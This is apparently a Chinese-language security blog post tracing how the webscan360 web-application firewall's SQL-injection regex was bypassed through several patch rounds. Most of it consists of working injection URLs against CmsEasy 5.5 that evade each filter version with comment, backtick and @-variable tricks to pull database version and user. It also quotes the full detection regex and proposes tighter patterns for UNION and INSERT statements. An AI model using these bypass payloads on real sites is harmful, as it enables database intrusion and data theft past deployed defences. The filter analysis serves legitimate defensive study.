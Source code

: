 # Webscan360的防御与绕过

这两天给360做了一个webscan360的总结，结果补丁还没有出来，就被人公布到了91org上面，既然公开了，那我就做一个总结

首先我们贴上它最新的防御正则

```
\<.+javascript:window\[.{1}\\x|<.*=(&#\d+?;?)+?>|<.*(data|src)=data:text\/html.*>|\b(alert\(|confirm\(|expression\(|prompt\(|benchmark\s*?\(.*\)|sleep\s*?\(.*\)|load_file\s*?\()|<[a-z]+?\b[^>]*?\bon([a-z]{4,})\s*?=|^\+\/v(8|9)|\b(and|or)\b\s*?([\(\)'"\d]+?=[\(\)'"\d]+?|[\(\)'"a-zA-Z]+?=[\(\)'"a-zA-Z]+?|>|<|\s+?[\w]+?\s+?\bin\b\s*?\(|\blike\b\s+?["'])|\/\*.*\*\/|<\s*script\b|\bEXEC\b|UNION.+?SELECT@{0,2}(\(.+\)|\s+?.+?|(`|'|").*?(`|'|"))|UPDATE@{0,2}(\(.+\)|\s+?.+?|(`|'|").*?(`|'|"))SET|INSERT\s+INTO.+?VALUES|(SELECT|DELETE)@{0,2}(\(.+\)|\s+?.+?\s+?|(`|'|").*?(`|'|"))FROM(\(.+\)|\s+?.+?|(`|'|").*?(`|'|"))|(CREATE|ALTER|DROP|TRUNCATE)\s+(TABLE|DATABASE)|\/\*.*?\*\/|'

```

首先我们追溯一下：

方开始的时候并没有这个正则表达式`\/\*.*?\*\/|'`

所以当时我们可以写为：

```
union select/**/1,2,3

```

这里我们用cmseasy举例子

我们发送url：

```
http://192.168.10.70/CmsEasy_5.5_UTF-8_20141015/uploads/index.php?case=archive&act=orders&aid[typeid%60%3d1%20UNION%20SELECT/**/1,2,3,concat(version(),user()),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37,38,39,40,41,42,43,44,45,46,47,48,49,50,51,52,53,54,55,56,57,58 from cmseasy_archive ORDER BY 1%23]=1

```

这时候我们是完全可以取出来敏感信息，成功绕过：

![enter image description here](http://drops.javaweb.org/uploads/images/1c5ecd48ef63065e457ed6e2deac8e40bcc3759b.jpg)

第二次被修补之后加上了后面的正则表达式，导致通篇不能写/**/这样的字符，但是这样真的能防御住吗：

我们利用mysql的一个特性：

```
union select`colum`,2,3 

```

这种特性是完全可以执行的

所以我们改变一下思路发送url:

```
http://192.168.10.70/CmsEasy_5.5_UTF-8_20141015/uploads/index.php?case=archive&act=orders&aid[typeid%60%3d1%20UNION%20SELECT`typeid`,2,3,concat(version(),user()),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37,38,39,40,41,42,43,44,45,46,47,48,49,50,51,52,53,54,55,56,57,58 from cmseasy_archive ORDER BY 1%23]=1

```

这样就成功绕过了：

![enter image description here](http://drops.javaweb.org/uploads/images/40cfc05b6f42fcfc1c17e300a0ab55606b5f711e.jpg)

修补之后：

```
union select`colum`,2,3 

```

这种被正则`(`|'|").*?(`|'|")`这个给过滤了

下载下来之后，发现正则表达式

```
(\(.+\)|\s+?.+?|(`|'|").*?(`|'|"))

```

发现这是后修补了小引号，但是本质问题还是没有变

在sql中我们还有另外一个特性：

```
union select@`1`,2,3

```

这样也是可以执行，那么就成功绕过了：

所以我们改变一下思路发送url:

```
http://192.168.10.70/CmsEasy_5.5_UTF-8_20141015/uploads/index.php?case=archive&act=orders&aid[typeid%60%3d1%20UNION%20SELECT@`typeid`,2,3,concat(version(),user()),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37,38,39,40,41,42,43,44,45,46,47,48,49,50,51,52,53,54,55,56,57,58 from cmseasy_archive ORDER BY 1%23]=1

```

![enter image description here](http://drops.javaweb.org/uploads/images/e35e6de690f0749d6feb6166120cf337aecdf07c.jpg)

此时有打了补丁，这时候正则又变成了

```
@{0,2}(.+|\(.+\)|\s+?.+?|(`|'|").*?(`|'|"))

```

这个正则的意思修补了刚才的那种类型，但是这个正则真正鸡肋的地方在如果不接小引号，那么这个正则就失效了

所以我们可以在进行变形处理`unionselect@1,2,3`这种没有被过滤，直接可以通过 这种形式的是可以在sql语句里面运行的，而且不报错

`unionselect@1=@1,2,3`这种也是没有被过滤，直接可以通过，这种也是可以再mysql完美执行的

发送url:

```
http://192.168.10.70/CmsEasy_5.5_UTF-8_20141015/uploads/ index.php?case=archive&act=orders&aid[typeid%60%3d1%20UNION%20SELECT@typeid,2,3,concat(version(),user()),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37,38,39,40,41,42,43,44,45,46,47,48,49,50,51,52,53,54,55,56,57,58 from cmseasy_archive ORDER BY 1%23]=10

```

![enter image description here](http://drops.javaweb.org/uploads/images/ce4645b342ee26899b81e0fd73b804d555e71a63.jpg)

以上就是webscan360的进化，那么我们来分析一下怎么去修补这个漏洞

最后我们给出来的正则

```
@{0,2}(.+|\(.+\)|\s+?.+?|(`|'|").*?(`|'|"))

```

然后进行测试 成功的拦截了 union select类型的 当然了后面的update类型的 和 insert 类型也要进行相应的改进

下来让我们在看其他地方一个正则

```
INSERT\s+INTO.+?VALUES

```

这个是太传统的写法 其实根据mysql的写法 这个会拦截`insert into t values(1,2,3)`但是插入操作不止是这样的写法`insert into t set a=1`这个是不会被拦截的 所以还得加上一个正则

`INSERT\s+INTO.+?(VALUES|SET)`